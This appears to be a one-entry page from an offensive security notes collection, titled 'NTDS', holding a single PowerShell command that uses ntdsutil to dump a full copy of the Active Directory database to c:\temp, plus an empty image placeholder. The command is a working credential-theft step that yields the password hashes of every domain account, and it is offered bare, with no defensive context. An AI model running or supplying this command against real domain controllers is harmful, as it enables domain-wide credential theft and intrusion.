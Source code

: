 # NTDS

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

